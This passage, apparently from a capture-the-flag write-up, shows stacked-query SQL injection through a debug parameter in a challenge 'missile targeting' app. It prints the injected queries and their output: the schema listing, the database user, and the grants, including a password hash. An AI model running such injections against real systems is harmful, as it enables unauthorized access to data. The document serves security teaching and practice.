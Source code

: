 In the Wireshark capture, I see the following:

```
2023-12-17 14:24:11.869 esa.mo.nmf.apps.MissileTargetingSystemMCAdapter sqlDebug
WARNING: Debug action query: SELECT VERSION()select database();
```

### Initial Access
  
So I run the same process above but this time adding a semicolon before my sql query:

```
; select databases();
```

Now when I return to the parameter service and use getValue button on Debug, I receive results from my sql query:

![image](../img/missilediversion-1.png)

Now we're getting somewhere! Time to start surveying that database. Survey:

### Discovery
  
```
; show databases;
SCHEMA_NAME: information_schema
SCHEMA_NAME: missile_targeting_system

; select user(), current_user();
user():targeter@172.18.0.3 | current_user(): targeter@%

; show grants;
Grants for targeter@%: GRANT USAGE ON *.* TO `targeter`@`%` IDENTIFIED BY PASSWORD '*41E2CFE844C8F1F375D5704992440920F11A11BA' | 
Grants for targeter@%: GRANT SELECT, INSERT ON `missile_targeting_system`.`satellite_query` TO `targeter`@`%` | 
Grants for targeter@%: GRANT SELECT ON `missile_targeting_system`.`pointing_mode` TO `targeter`@`%` | 
Grants for targeter@%: GRANT SELECT ON `missile_targeting_system`.`messaging` TO `targeter`@`%` | 
Grants for targeter@%: GRANT SELECT ON `missile_targeting_system`.`target_coordinates` TO `targeter`@`%` | 
Grants for targeter@%: GRANT SELECT ON `missile_targeting_system`.`pointing_mode_to_str` TO `targeter`@`%` | 
```
